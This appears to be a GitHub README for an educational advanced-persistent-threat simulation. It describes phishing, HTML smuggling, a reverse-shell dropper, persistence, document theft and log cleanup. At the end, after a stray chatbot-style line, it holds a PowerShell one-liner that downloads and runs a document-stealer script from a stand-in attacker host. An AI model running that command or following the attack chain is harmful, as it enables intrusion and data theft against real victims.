 # APT Simulation - Advanced Persistent Threat Attack

This project simulates an **Advanced Persistent Threat (APT)** attack, covering multiple stages from initial phishing to data exfiltration. The simulation is designed for educational and cybersecurity awareness purposes in a **controlled environment** such as VirtualBox.

## **Stages of the Attack**

### **1. Phishing (Initial Access)**

- A malicious **job description document (.docx)** is sent to the target.
- The document contains a **link to an HTML Smuggling page** that automatically downloads the initial dropper (**dropper.exe**).

### **2. HTML Smuggling (Dropper Execution)**

- When the target opens the link, **dropper.exe** is downloaded without triggering security warnings.
- If the user executes **dropper.exe**, it downloads additional payloads from the attacker's server.

### **3. Payload Deployment (Execution & Persistence)**

- The dropper downloads **shellcode (reverse shell)** from the attacker's server.
- A **PowerShell script** is executed to establish **persistence** via **Hijacking File Associations**.

### **4. Privilege Escalation & Lateral Movement**

- If necessary, privilege escalation techniques are attempted.
- The attacker explores ways to move laterally within the target network.

### **5. Data Exfiltration (Document Theft)**

- A **PowerShell document stealer** searches for sensitive files (**.txt, .pdf, .xlsx, .csv**).
- Stolen files are uploaded to a **remote PHP web server** controlled by the attacker.

### **6. Cleanup & Covering Tracks**

- Log files and traces of execution are removed to evade detection.
- Persistence mechanisms remain in place for future access.

## **Components**

- **Dropper (C)**: Downloads & executes payloads.
- **Reverse Shell (C & Windows API)**: Establishes attacker connection.
- **PowerShell Scripts**: Handles persistence & document exfiltration.
- **PHP Web Server**: Receives stolen files.
- **HTML Smuggling (HTML & JavaScript)**: Bypasses browser security controls.
- **Phishing Document (DOCX)**: Social engineering bait.

## **How to Set Up the Simulation**

### **1. Configure Virtual Environment**

- Use **VirtualBox** with a **Windows VM** as the target.
- Set up an **attacker machine (Kali Linux/Ubuntu)** for control.

### **2. Start the Web Server**

```bash
php -S 0.0.0.0:8080 -t /path/to/upload_server/
```

### **3. Send the Phishing Document**

- Distribute the **malicious job description (.docx)** via email or messaging platforms.

### **4. Monitor the Attack Progress**

- Wait for the victim to execute **dropper.exe**.
- Capture the **reverse shell connection**.
- Extract stolen data from the PHP web server.

## **Disclaimer**

This project is strictly for **educational purposes**. Unauthorized use of these techniques on real systems **without permission** is illegal and may result in serious legal consequences. Use this simulation in a controlled and isolated environment only.

---

Let me know if you need **further refinements or additional details!** 🔥

powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://attacker_ip/docs-stealer.ps1')"
